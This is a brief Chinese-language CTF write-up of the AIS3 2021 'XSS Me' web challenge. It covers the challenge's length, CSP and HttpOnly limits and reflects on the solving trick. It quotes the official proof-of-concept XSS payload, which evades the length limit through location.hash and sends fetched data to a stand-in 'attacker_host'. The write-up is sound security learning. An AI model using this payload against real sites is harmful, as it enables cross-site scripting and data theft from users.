 # Web4  XSS Me
原本看到題目超級興奮，是常找的XSS
結果 😧
> 我到現在還沒寫出來，等Writeup
> [06/02] 令人驚艷那解實在太漂亮

https://github.com/splitline/My-CTF-Challenges/tree/master/ais3-pre-exam/2021/Web/xss-me

## 限制
* payload只能54個字元 ✅
* Cookie設定了HttpOnly => document.cookie拿不到內容 （官版Writeup似乎沒提到，不過是對的
* CSP策略：default-src: 'self' ...忘了 => 不能載入外部src✅
* 在<script>裏面，所以要閉合✅
  
## 官版POC
```js
</script><script>location=location.hash.slice(1)//
#javascript:fetch('/getflag').then(function(r){return/**/r.text()}).then(function(r){location='http://attacker_host/'+r})
```

## 問題
我主要就是差在「繞過字元長度限制」這一步  
以後知道了啦，有弄hash這招可以解  
沒有仔細去想有可能繞過的解，導致一直卡在思考「54個字元怎麼寫」的死循環  
不過大推這題，真的讚  
  
  
